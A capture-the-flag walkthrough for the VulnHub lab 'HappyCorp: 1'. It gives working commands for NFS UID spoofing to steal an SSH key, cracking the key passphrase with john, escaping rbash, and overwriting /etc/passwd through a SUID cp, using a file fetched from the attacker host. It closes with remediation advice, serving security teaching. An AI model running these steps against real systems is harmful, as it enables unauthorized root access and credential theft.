





# HappyCorp: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/root.txt (contents not shown in source) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/happycorp-1,296/) |

## Attack Summary

`nmap → NFS no_root_squash (UID spoofing) → SSH key extraction → john (passphrase: sheep) → SSH + rbash escape → SUID cp → /etc/passwd overwrite → root`

## Methodology

1. Network discovery and service scan
2. NFS enumeration — exposed `/home/karl`
3. UID/GID spoofing to read `.ssh/` via mounted share
4. Crack SSH key passphrase with John the Ripper
5. Login with key; escape rbash via `-t "/bin/sh"`
6. Find SUID `cp`; overwrite `/etc/passwd` with injected root account

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.104
```

Open ports: 22 (SSH), 80 (HTTP), 2049 (NFS).



---

## Step 2: NFS Enumeration and Mount

```bash
showmount -e 192.168.1.104
# Export list: /home/karl (everyone)
mkdir /tmp/raj
mount 192.168.1.104:/home/karl /tmp/raj
cd /tmp/raj
ls -al
```

The `.ssh/` directory requires UID/GID 1001. Create a matching local user:

```bash
groupadd --gid 1001 aaru
useradd --uid 1001 --group aaru aaru
sudo -u aaru ls -l .ssh
sudo -u aaru cat .ssh/user.txt
# user flag
sudo -u aaru cat .ssh/id_rsa > /tmp/key
```



---

## Step 3: Crack SSH Key Passphrase

```bash
python /usr/share/john/ssh2john.py /tmp/key > /tmp/ssh_hash
john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/ssh_hash
# Passphrase: sheep
```



---

## Step 4: SSH Login and Escape rbash

Direct login drops into **rbash** (restricted shell):

```bash
chmod 600 /tmp/key
ssh -i /tmp/key karl@192.168.1.104
# rbash — command not found errors
```

Force a real shell via the `-t` flag:

```bash
ssh -i /tmp/key karl@192.168.1.104 -t "/bin/sh"
# $ id
# uid=1001(karl) gid=1001(karl) groups=1001(karl)
```

---

## Step 5: Privilege Escalation via SUID `cp`

```bash
find / -perm -u=s -type f 2>/dev/null
# /bin/cp  ← SUID set!
```

Generate a password hash for a new root-level user:

```bash
# On attacker:
openssl passwd -1 -salt ignite pass123
# $1$ignite$...

# Copy /etc/passwd and append new user:
cp /etc/passwd /tmp/passwd_bak
echo 'ignite:$1$ignite$HASH:0:0:root:/root:/bin/bash' >> /tmp/passwd_bak
# Serve it:
python3 -m http.server 8000
```

On target:

```bash
cd /tmp
wget http://192.168.1.111:8000/passwd_bak -O passwd_new
cp passwd_new /etc/passwd
su ignite
# Password: pass123
id
# uid=0(root) gid=0(root) groups=0(root)
```



---

## Step 6: Root Flag

```bash
cd /root
cat root.txt
```



---

## Lessons Learned

1. **NFS no_root_squash** allows any local user to impersonate the share owner — always audit NFS exports
2. **SSH key passphrases** must be strong — `sheep` cracked in seconds with rockyou
3. **rbash** is a weak control; `-t "/bin/sh"` trivially bypasses it
4. **SUID on `cp`** is a classic LPE vector — writing to `/etc/passwd` gives instant root
5. **UID spoofing** on mounted NFS shares is a real-world attack path in enterprise Linux

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| NFS no_root_squash | Add `root_squash` to `/etc/exports`; restrict allowed clients by IP |
| Weak SSH key passphrase | Enforce passphrase complexity; use hardware keys |
| rbash escape | Do not rely on rbash for security; use proper sudo policy |
| SUID on `/bin/cp` | Remove SUID: `chmod u-s /bin/cp`; audit all SUID binaries regularly |
| World-readable /home via NFS | Restrict NFS exports to specific hosts and user ranges |
